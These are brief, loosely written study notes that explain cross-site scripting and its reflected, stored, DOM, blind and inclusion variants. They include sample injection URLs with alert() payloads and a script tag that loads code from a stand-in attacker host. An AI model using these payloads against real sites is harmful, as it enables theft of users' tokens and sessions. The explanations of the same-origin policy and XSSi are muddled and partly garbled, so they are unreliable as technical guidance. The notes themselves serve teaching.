 *XSS => Cross Site Scripting 


This attack occurs whenever we can load a JavaScript code in the DOM of the desired page.

this attack aims the Victim's browser , not the server!


- bypass SOP:

  
       https://target.tld/search?q=<XSS_Payload>


For example, the attacker in the above address has realized that he can launch an XSS attack by injecting the payload, and he knows that the target token is located in the /usr/token path, and he can get it with the right payload. 


for example :

Payload => script src="https://target.tld/usr/token.js"></script>
browser console => alert(token);


But if the attacker wants to send a request directly to that path, SOP stops the browser!


*XSS Types:


  - Reflected XSS => RXSS:

    
         https://target.tld/search?q=<script>alert(1);</script>


  - Stored XSS => SXSS :

    
         https://target.tld/user?email=<script>alert(1);</script>


  - DOM XSS => DXSS:

    
        https://target.tld/user#";alert(1);
    
        
        developer => location.hash
    

   - Persistent XSS or Blind XSS => BXSS:
   
    The code runs where Attacker doesn't see it


   
   - XSSi => XSS Inclusion

     
         - js => automate generate 
         - email , token , ...
             - exploit : 
                            <script src="http://atacker.tld/info.js"></script>
